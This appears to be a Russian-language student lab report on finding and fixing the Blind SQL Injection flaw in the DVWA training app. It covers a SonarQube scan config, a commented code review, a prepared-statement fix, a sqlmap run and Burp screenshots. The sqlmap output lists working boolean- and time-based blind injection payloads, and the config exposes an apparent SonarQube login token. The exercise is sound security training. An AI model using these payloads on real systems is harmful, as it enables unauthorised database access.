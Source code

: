 # Практическая работа 4
## Необходимо найти участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection на сайте dvwa.local с использованием статического анализатора кода (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

Запустил sonar-scanner в папке sql-blind в DVWA репозитории
```bash
sonar.projectKey=blind-sql-injection-practice
sonar.projectName=blind-sql-injection-practice
sonar.projectVersion=1.0
sonar.sources=.
sonar.language=php
sonar.host.url=http://localhost:9000
sonar.login=sqp_6192d3b650155f1eb17d31ececb0029373472fdf
```

### Найденные ошибки
![Ошибки](./assets/sonar-review-1.png)
![Ошибки](./assets/sonar-review-2.png)
![Ошибки](./assets/sonar-review-3.png)

## Проанализировать код и сделать кодревью, указав слабые места
``` php
<?php

    if(isset( $_GET['Submit' ])) {
        /* Уязвимость: пользовательский ввод используется без обработки. */
        $id = $_GET[ 'id' ];

        /* Уязвимость: SQL-инъекция. Переменная `$id` передается напрямую. */
        $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );

        /* Проблема: `@` подавляет ошибки, затрудняя отладку и диагностику. */
        $num = @mysqli_num_rows($result);

        if($num > 0) {
            /* Проблема: возможность XSS, если `$html` выводится напрямую. */
            $html .= '<pre>User ID exists in the database.</pre>';
        }
        else {
            /* Проблема: HTTP 404 применяется для отсутствующих ресурсов, а не для логики приложения. */
            header($_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found');

            /* Проблема: аналогичная возможность XSS. */
            $html .= '<pre>User ID is MISSING from the database.</pre>';
        }

        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }

?>
```

### Исправленная версия DVWA, которая исключается Blind SQL Injection уязвимости

``` php
<?php

if (isset($_GET['Submit'])) {
    /* Получение введенного пользователем ID */
    $id = $_GET['id'];
    $exists = false;

    /* Подключение к базе данных */
    $connection = $GLOBALS["___mysqli_ston"];
    $query = "SELECT first_name, last_name FROM users WHERE user_id = ?";
    
    /* Используем подготовленный запрос */
    if ($stmt = mysqli_prepare($connection, $query)) {
        /* Привязка параметра */
        mysqli_stmt_bind_param($stmt, 's', $id);

        try {
            mysqli_stmt_execute($stmt);
            mysqli_stmt_store_result($stmt);

            $exists = mysqli_stmt_num_rows($stmt) > 0;
        } catch (Exception $e) {
            print "Произошла ошибка.";
            exit;
        } finally {
            mysqli_stmt_close($stmt);
        }
    }
    ((is_null($___mysqli_res = mysqli_close($connection))) ? false : $___mysqli_res);

    if ($exists) {
        $html .= '<pre>User ID exists in the database.</pre>';
    } else {
        header($_SERVER['SERVER_PROTOCOL'] . ' 404 Not Found');
        
        $html .= '<pre>User ID is MISSING from the database.</pre>';
    }
}
?>
```

### Использовать sqlmap для нахождения уязвимости в веб-ресурсе
> Выполнил проверку с помощью SQLMap CLI с уровнем риска 3 и уровнем глубины проверки 5
>
> В результе проверки sqlmap определил подверженные sql injection параметры - `id`
```bash
DVWA git:(master) ✗ sqlmap -u "http://127.0.0.1:4280/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --batch --risk=3 --level=5 --cookie="PHPSESSID=939a3dbf8d893a151afb25dadd50ddc0; security=low"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:58:41 /2024-12-01/

[23:58:41] [INFO] resuming back-end DBMS 'mysql' 
[23:58:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 1605=1605 AND 'kWRu'='kWRu&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1430 FROM (SELECT(SLEEP(5)))zraJ) AND 'VjNm'='VjNm&Submit=Submit
---
[23:58:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.1, Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:58:41] [INFO] fetched data logged to text files under '/Users/ruslanonly/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 23:58:41 /2024-12-01/
```

### Использовать Burp для нахождения уязвимости в веб-ресурсе

#### Успешное использование Burp Repeater
![Успешное использование Burp Repeater](./assets/burp-repeater-1.png)

#### Выполнение ручной SQL Injection с помощью Burp Repeater \', которая приводит к ошибке
![Выполнение ручной SQL Injection с помощью Burp Repeater \', которая приводит к ошибке](./assets/burp-repeater-2-injection.png)

#### Выполнение ручной SQL Injection с помощью Burp Repeater \', которая приводит к ошибке
![Выполнение ручной SQL Injection с помощью Burp Repeater \', которая приводит к ошибке](./assets/burp-repeater-3-injection.png)

#### Успешное использование Burp Intruder и выполнение ряда sql инъекций после который получилось понять, сколько столбцов имеет таблица users
![Успешное использование Burp Intruder](./assets/burp-intruder-4.png)